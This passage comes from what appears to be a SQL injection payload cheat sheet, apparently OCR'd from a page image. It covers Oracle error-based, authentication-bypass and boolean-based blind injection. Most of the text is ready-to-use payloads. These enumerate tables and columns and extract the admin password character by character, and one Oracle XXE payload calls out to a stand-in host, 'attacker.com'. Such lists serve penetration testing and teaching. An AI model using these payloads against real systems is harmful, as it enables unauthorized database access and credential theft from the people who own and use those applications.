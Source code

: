 **Documentation**: PostgreSQL-specific error-based injection techniques using type casting errors.
**Limitations**: Requires PostgreSQL database; strict type checking needed; may be limited by privileges.

### Oracle Error-Based Injection
```sql
-- Oracle Error-Based Payloads
' AND (SELECT UPPER(XMLType(CHR(60)||CHR(58)||(SELECT user FROM dual)||CHR(62))) FROM dual) IS NULL-- -
' AND (SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(58)||(SELECT banner FROM v$version WHERE rownum=1)||CHR(62))) FROM dual) IS NULL-- -

-- Oracle Specific Functions
' AND CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) IS NULL-- -
' UNION SELECT NULL,EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://attacker.com/"> %remote;]>'),'/l') FROM dual-- -
```

**Documentation**: Oracle database error-based injection using XML functions and type conversion errors.
**Limitations**: Requires Oracle database; specific privilege requirements; complex syntax.

## Boolean-Based Blind SQL Injection

### Basic Boolean-Based Payloads
```sql
-- Authentication Bypass
admin'-- -
admin'/*
' OR '1'='1
' OR 1=1-- -
admin' OR '1'='1'-- -

-- Conditional Boolean Tests
' AND (SELECT SUBSTRING(VERSION(),1,1))='5'-- -
' AND (SELECT LENGTH(database()))=8-- -
' AND (SELECT ASCII(SUBSTRING(database(),1,1)))=115-- -

-- Database Enumeration
' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database())=10-- -
' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=5-- -
```

**Documentation**: Boolean-based injection tests application responses to true/false conditions for data extraction.
**Limitations**: Time-intensive for large data sets; requires consistent application responses.

### Advanced Boolean-Based Techniques
```sql
-- Substring-Based Data Extraction
' AND (SELECT SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),1,1))='u'-- -
' AND (SELECT SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),1,1))='i'-- -

-- Binary Search Optimization
' AND (SELECT ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)))>64-- -
' AND (SELECT ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)))<91-- -
' AND (SELECT ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)))=65-- -
```
